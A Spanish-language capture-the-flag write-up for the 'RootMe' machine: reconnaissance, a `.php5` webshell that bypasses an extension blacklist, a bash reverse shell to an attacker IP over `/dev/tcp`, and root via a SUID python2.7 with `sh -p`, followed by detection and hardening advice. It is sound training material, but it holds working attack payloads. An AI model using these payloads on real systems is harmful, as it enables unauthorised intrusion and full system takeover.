

## Resumen

RootMe es una web en PHP con un panel de subida de ficheros mal filtrado. La cadena es el patrón clásico de Linux fácil: subir una webshell saltándose el filtro de extensiones, pasar de la webshell a una reverse shell como `www-data` y escalar a root con un intérprete que tiene el bit SUID.

| Campo | Valor |
| --- | --- |
| IP objetivo | `10.130.159.240` |
| Servicios | SSH (22) y HTTP (80) |
| App web | "HackIT - Home" (PHP sobre Apache 2.4.41) |
| Acceso inicial | `www-data` por webshell `.php5` |
| Escalada | `/usr/bin/python2.7` con SUID de root |

La cadena completa:

1. Escaneo de puertos y servicios con nmap.
2. Fuzzing de directorios con gobuster: `/panel/` (subida) y `/uploads/` (donde caen los ficheros).
3. Subida de una webshell `shell.php5` saltando la lista negra de extensiones.
4. RCE como `www-data` y salto a una reverse shell estabilizada.
5. Enumeración de binarios SUID: `python2.7` propiedad de root.
6. Shell de root con la técnica de GTFOBins (`sh -p`).

## Reconocimiento

Primero todos los puertos TCP y después versiones y scripts por defecto solo sobre los que están abiertos:

```bash
nmap -p- --min-rate 5000 -n 10.130.159.240 -oG allPorts
nmap -p22,80 -sCV 10.130.159.240 -oN targeted
```



| Puerto | Servicio | Versión / nota |
| --- | --- | --- |
| 22/tcp | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 80/tcp | HTTP | Apache httpd 2.4.41 (Ubuntu), título "HackIT - Home" |

Dos cosas de los scripts por defecto:

- **SSH** no sirve de nada sin credenciales: lo dejo aparcado. El vector de entrada es la web.
- La web manda una cookie **`PHPSESSID`**, así que la aplicación está escrita en **PHP**. nmap avisa además de que esa cookie no lleva el flag `HttpOnly` (detalle menor: sin `HttpOnly`, un XSS podría leer la cookie desde JavaScript). Lo que me interesa aquí es la pista del lenguaje: si subo código PHP y el servidor lo ejecuta, tengo ejecución de comandos.

## Enumeración web

Fuzzing de directorios sobre Apache para descubrir rutas que no están enlazadas desde la portada:

```bash
gobuster dir -u http://10.130.159.240/ -w /usr/share/wordlists/dirb/common.txt
```

Salen dos rutas que encajan como un guante:

| Ruta | Función |
| --- | --- |
| `/panel/` | Formulario de subida de archivos |
| `/uploads/` | Directorio donde se guardan, accesible por URL |

El combo es el de siempre: `/panel/` **sube** ficheros y `/uploads/` los **sirve**. Si consigo subir un `.php` y Apache lo ejecuta al pedirlo desde `/uploads/`, tengo RCE. Todo el reto está en el filtro de extensiones del panel.

## Explotación: subida de la webshell

El panel rechaza los ficheros con extensión `.php`, pero su filtro es una **lista negra incompleta**: solo mira esa extensión exacta y se olvida de las demás que Apache también interpreta como PHP.

### Por qué funciona `.php5`

Apache no decide "esto es PHP" por la extensión literal `.php`, sino por la **asociación de extensión a manejador**. El paquete `libapache2-mod-php` registra varias extensiones para el manejador `application/x-httpd-php`, normalmente con un bloque `<FilesMatch>` o directivas `AddHandler`/`AddType` en su `.conf`:

```apache
<FilesMatch ".+\.ph(ar|p|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

Según la versión y la configuración, en ese conjunto entran `.php`, `.php3`, `.php4`, `.php5`, `.phtml` y a veces `.pht`. **Todas se ejecutan igual que `.php`.** Una lista negra que solo compara contra `.php` las deja pasar todas. Por el mismo motivo suelen funcionar otros trucos cuando la validación es floja: dobles extensiones (`shell.php.jpg`), mayúsculas (`.pHp`) o, en versiones antiguas, un byte nulo. Aquí basta con la más directa.

Creo una webshell mínima y la guardo como `shell.php5`:

```php title="shell.php5"
<?php system($_REQUEST['cmd']); ?>
```

Uso `$_REQUEST` en vez de `$_GET` a propósito: así la shell acepta el comando tanto por GET (en la URL) como por POST, lo que viene bien si luego quiero mandar payloads largos sin ensuciar la barra de direcciones.

El panel la acepta sin rechistar y queda accesible en `/uploads/shell.php5`. Compruebo la ejecución de comandos:

```bash
curl "http://10.130.159.240/uploads/shell.php5?cmd=id"
```

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

RCE confirmado como `www-data`.

## Acceso inicial: reverse shell

Una webshell por GET es incómoda (sin histórico, sin TTY, un comando por petición), así que la cambio por una reverse shell interactiva. Primero el listener en mi máquina. Uso el 443 porque es un puerto privilegiado (menor que 1024, por eso necesita `sudo`) y el tráfico saliente a 443 suele cruzar los firewalls de egress sin problema:

```bash
sudo nc -lvnp 443
```

Ahora el payload a través del parámetro `cmd`. Hay dos detalles que importan:

- `system()` ejecuta con `/bin/sh`, que en Ubuntu es **dash**. La sintaxis `>&` y `/dev/tcp/` **no** es POSIX: es exclusiva de **bash**. Por eso envuelvo la reverse shell en `bash -c`, para forzar que la interprete bash y no dash.
- La reverse shell lleva `&`, espacios y `>`, que romperían la query string o los masticaría mi shell local. La mando **URL-encodeada** con `--data-urlencode`; con `-G` esos datos viajan como parámetros GET:

```bash
curl -G "http://10.130.159.240/uploads/shell.php5" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/192.168.143.255/443 0>&1'"
```

En cuanto se lanza, recibo la conexión como `www-data`. La shell llega sin TTY, así que la estabilizo para tener una terminal completa (poder usar `sudo`, `su`, editores y `Ctrl+C` sin matar la sesión):

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z para dejarla en segundo plano y, en Kali:
stty raw -echo; fg
# de vuelta en la shell:
export TERM=xterm
```

`pty.spawn` abre una pseudo-terminal real; `stty raw -echo` hace que mi terminal pase las teclas tal cual (sin doble eco) a la sesión remota; y `export TERM=xterm` arregla `clear`, `less` y el borrado de línea. La flag de usuario está en el `home` del usuario de la máquina:

```bash
cat user.txt
```

## Escalada de privilegios: SUID en python2.7

Como `www-data`, busco binarios con el bit **SUID** propiedad de root:

```bash
find / -user root -perm /4000 2>/dev/null
# equivalente, por tipo de fichero:
find / -perm -4000 -type f 2>/dev/null
```

El bit SUID (los `4000` de los permisos) hace que el binario se ejecute con el **UID efectivo de su propietario**, no con el de quien lo lanza. En binarios de root legítimos y acotados (`passwd`, `sudo`, `ping`) es necesario. Un **intérprete** con SUID de root, en cambio, es un fallo grave: ejecuta cualquier código que le pases conservando el UID efectivo de root. Entre los SUID normales del sistema aparece el anómalo:

```text
/usr/bin/python2.7
```

Siguiendo la técnica de [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) para python, lanzo una shell que preserva el privilegio:

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### La clave está en el `-p`

Linux distingue el UID **real** (quién eres, `ruid`) del UID **efectivo** (con qué permisos actúas ahora mismo, `euid`). Al ejecutar un SUID de root, quedo con `ruid=www-data` pero `euid=0`. El problema es que bash y sh, por seguridad, **descartan el euid elevado nada más arrancar cuando `euid` ≠ `ruid`** (igualan `euid` a `ruid`), precisamente para frustrar este abuso. El flag `-p` (*privileged*) le dice a `sh` que **no** haga ese descarte y mantenga el `euid=0`. Por eso `os.execl` arranca `sh -p` y no un `sh` a secas:

```text
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

Con `euid=0` ya actúo como root. La flag final está en `/root/`:

```bash
cat /root/root.txt
```

Ese detalle explica por qué una reverse shell "normal" lanzada desde un SUID no da root: sin `-p`, el shell tira el privilegio. La alternativa es forzar el UID antes de abrir la shell, también desde python: `os.setuid(0)` seguido de `os.system("/bin/bash")`.

## Cómo se detecta y se corrige

- **Subida de ficheros y bypass de extensión**: validar con **lista blanca** de extensiones y comprobar el tipo real del fichero (los *magic bytes*), nunca el nombre ni el `Content-Type` que manda el cliente. Guardar las subidas con un nombre aleatorio y **fuera del webroot**, o en un directorio donde el intérprete esté apagado (`php_admin_flag engine off`). Quitar de Apache el mapeo de `.php3`/`.php4`/`.php5`/`.phtml` si no se usan. Como detección: ficheros `.php*` nuevos en el directorio de subidas y peticiones a `/uploads/*.php*` con parámetros tipo `cmd`.
- **Webshell y RCE**: el usuario del servidor web lanzando `sh`, `bash -i`, `curl` o `nc` es muy anómalo. `auditd` con reglas sobre `execve` de shells por `www-data`, y un EDR, lo cazan. La conexión saliente del proceso de Apache hacia `/dev/tcp` es otra pista.
- **Reverse shell**: el servidor web no debería iniciar conexiones salientes; el *egress filtering* y la vigilancia de conexiones a puertos raros la cortan o la delatan.
- **SUID en un intérprete**: auditar de forma periódica los binarios SUID (`find / -perm -4000`); ninguno debería ser un intérprete (python, perl, bash, awk...). Quitar el bit con `chmod u-s`. LinPEAS y las guías de *hardening* de CIS lo marcan, y AIDE o Tripwire detectan el cambio de permisos.

## Lo que me llevo

- El orden **web → subida → RCE → reverse shell → SUID** es el camino de Linux fácil más repetido; conviene tenerlo mecanizado de cara al eJPT y al OSCP.
- Un filtro de extensiones en lista negra casi nunca es completo: prueba `.php5`, `.phtml` y `.pht` antes de rendirte.
- `system()` ejecuta con dash: envuelve las reverse shells de bash en `bash -c` y URL-encódealas.
- Ante un SUID, consulta GTFOBins; y no olvides el `-p`: sin él, el shell descarta el euid y te quedas sin root.
- Enumerar binarios SUID (`find / -perm -4000`) es de lo primero que hago tras pisar una shell de Linux.
